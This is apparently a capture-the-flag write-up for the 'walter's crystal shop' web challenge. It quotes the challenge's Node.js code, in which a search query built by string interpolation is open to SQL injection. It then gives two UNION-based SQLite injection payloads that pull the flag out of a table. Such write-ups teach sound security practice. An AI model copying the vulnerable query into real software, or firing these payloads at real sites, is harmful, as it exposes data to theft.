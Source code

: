 # walter's crystal shop
162 solves / 241 points
> My buddy Walter is selling some crystals, check out his shop!

## About the Challenge
We were given a website and source code (You can download the source code [here](walters_crystal_shop.zip)). Searching a crystal name is the only functionality of the website.

![Alt text](images/image.png)

## How to Solve?
Looking at the source code, the flag was stored in `flag` table with the column `flag`.
```js
...
db.run("CREATE TABLE IF NOT EXISTS flag (flag TEXT)");
db.run(`INSERT INTO flag (flag) VALUES ('${flag}')`);
...
```
And the website is vulnerable for SQL Injection (SQLite).
```js
app.get("/crystals", (req, res) => {
  const { name } = req.query;

  if (!name) {
    return res.status(400).send({ err: "Missing required fields" });
  }

  db.all(`SELECT * FROM crystals WHERE name LIKE '%${name}%'`, (err, rows) => {
    if (err) {
      console.error(err.message);
      return res.status(500).send('Internal server error');
    }

    return res.send(rows);
  });
});
```
Focusing on the database query
```sql
SELECT * FROM crystals WHERE name LIKE '%${name}%'
```
And entering `h` in the website's search bar, the query will be like this
```sql
SELECT * FROM crystals WHERE name LIKE '%$h%'
```
With knowledge in SQLite documentation, uniting tables with different columns must have same column name as the one with greater columns. We can enter the search bar with
```
%' UNION SELECT flag as name, Null as price, Null as quantity FROM flag WHERE flag LIKE '%ctf
```
The query would be
```sql
SELECT * FROM crystals WHERE name LIKE '%%' UNION SELECT flag as name, Null as price, Null as quantity FROM flag WHERE flag LIKE '%ctf%'
```
![Alt text](images/image2.png)
```
nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}
```
## Alternative Solution
Using SQL Injection Payload in search query
```
' union select (select * from flag),2,3-- -
```
